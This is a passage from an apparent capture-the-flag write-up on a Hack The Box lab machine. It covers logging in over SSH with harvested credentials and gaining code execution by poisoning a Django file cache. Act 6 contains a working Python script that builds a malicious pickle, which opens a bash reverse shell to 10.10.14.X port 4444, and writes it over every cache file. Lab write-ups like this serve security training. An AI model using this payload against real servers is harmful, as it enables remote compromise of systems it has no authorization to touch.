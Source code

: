 ```python
print('\n'.join(sorted(found)))
```

Run:

```bash
python3 extract_creds.py
```

*Learning point:* Automating repeated tasks saves time and reduces errors.

---

## Act 5 — SSH into User Wonderland

```bash
# SSH into target using harvested credentials
ssh zero_day@hacknet.htb

# Explore home directory
whoami
pwd
ls -la

# Capture user flag
cat user.txt
```

*Learning point:* Credentials harvested from web apps can often grant system-level access.

---

## Act 6 — Cache Poisoning: Pickle RCE

**Step 1: Check caching**

```bash
grep -R "@cache_page" /var/www -n
ls -la /var/tmp/django_cache/
```

**Step 2: Create malicious pickle**

```python
# cache_poison.py
import pickle, os

cache_dir='/var/tmp/django_cache'
cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.X/4444 0>&1'"
class RCE:
    def __reduce__(self): return (os.system, (cmd,))
pickle_payload=pickle.dumps(RCE())

# Poison all cache files
for file in os.listdir(cache_dir):
    if file.endswith('.djcache'):
        path=os.path.join(cache_dir,file)
        with open(path,'wb') as f:
            f.write(pickle_payload)
        print(f"[+] Poisoned {file}")
```
